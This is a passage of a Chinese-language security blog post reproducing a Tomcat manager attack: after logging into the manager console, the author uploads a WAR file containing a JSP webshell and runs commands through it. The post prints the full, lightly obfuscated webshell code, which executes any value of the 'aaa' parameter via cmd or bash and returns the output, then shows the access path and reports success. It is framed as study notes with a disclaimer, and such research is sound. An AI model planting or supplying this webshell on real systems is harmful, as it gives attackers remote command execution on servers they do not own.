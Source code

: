 #### 上传war包  
  
登入到后台之后，可以看到上传war包的入口  
  
![](https://mmbiz.qpic.cn/mmbiz_png/9bOzaictich6TJV0rclZlxskw28fUAeg2LqtvN1ykibjicuuSgBTwW6vLvFGhXQG2iakVdRQrMwW8Hzt6bcW0dVIMqQ/640?wx_fmt=png&from=appmsg "")  
  
首先创建一个jsp的马，然后将其压缩为zip格式，然后修改zip后缀为war即可,jsp马的内容：  
```
<% String A0U44=request.getParameter("aaa");ProcessBuilder

    pb;if(String.valueOf(java.io.File.separatorChar).equals("\\")){pb=new ProcessBuilder(new /*Z1Po4C57K8*/String(new

    byte[]{99, 109, 100}), new String(new byte[]{47, 67}), A0U44);}else{pb=new

    ProcessBuilder/*Z1Po4C57K8*/(new/*Z1Po4C57K8*/String(new byte[]{47, 98, 105, 110, 47, 98, 97, 115, 104}), new

    String(new byte[]{45, 99}), A0U44);}if (A0U44 !=null) {Process process=pb.start();java.util.Scanner E70GAlS3=new

    java.util.Scanner(process.getInputStream()).useDelimiter("\\A");String op="" ;op=E70GAlS3.hasNext() ?

    E70GAlS3.next() : op;E70GAlS3.close();out.print(op);}else {} %>

```  
  
然后上传，如果上传成功会返回ok消息  
  
![](https://mmbiz.qpic.cn/mmbiz_png/9bOzaictich6TJV0rclZlxskw28fUAeg2LmE4HuCI6JsPDQnicdGg2H02Rq6dc2NJEb0ibUTz6ibvUbfsFS1Z9EeMGw/640?wx_fmt=png&from=appmsg "")  
  
访问jsp马的路径，war名/jsp文件名，如：172.28.218.106:8989/20240409100309/20240409100309.jsp上面的jsp马会执行aaa参数，于是传入一个参数试一下，看看是否能够成功  
  
![](https://mmbiz.qpic.cn/mmbiz_png/9bOzaictich6TJV0rclZlxskw28fUAeg2L01SONz2qeCYcyITPDRDE0DmfciaEIPXPPY6lVuicoaxya8GPlbENHPJA/640?wx_fmt=png&from=appmsg "")  
  
命令执行成功  
### 总结  
  
这个漏洞还是不能直接利用，需要修改tomcat的配置文件，允许tomcat manager允许外网访问，并且设置了tomcat manager的用户，如果没有这两个前提这个漏洞就不存在了。关于这个漏洞的影响范围，我暂时也没搞懂，据说tomcat不同版本的manager可能会不同，这个我去tomcat 官网下载tomat 5版本的，但是发现下载连接404了。暂时就这样吧  
## 文末  
  
关于tomcat的漏洞还有很多，暂时先学习几个比较常见的吧(网上介绍比较多的)，临近面试还有很多东西需要研究一下，上面的笔记只是跟着网上的教程自己复现一遍，结合了一些自己的思路和总结，如有不足或者错误之处欢迎各位师傅多多指正！  
  
**免责声明：文章中涉及的程序(方法)可能带有攻击性，仅供安全研究与教学之用，读者将其信息做其他用途，由读者承担全部法律及连带责任，文章作者和本公众号不承担任何法律及连带责任，望周知！！！**  
  
  
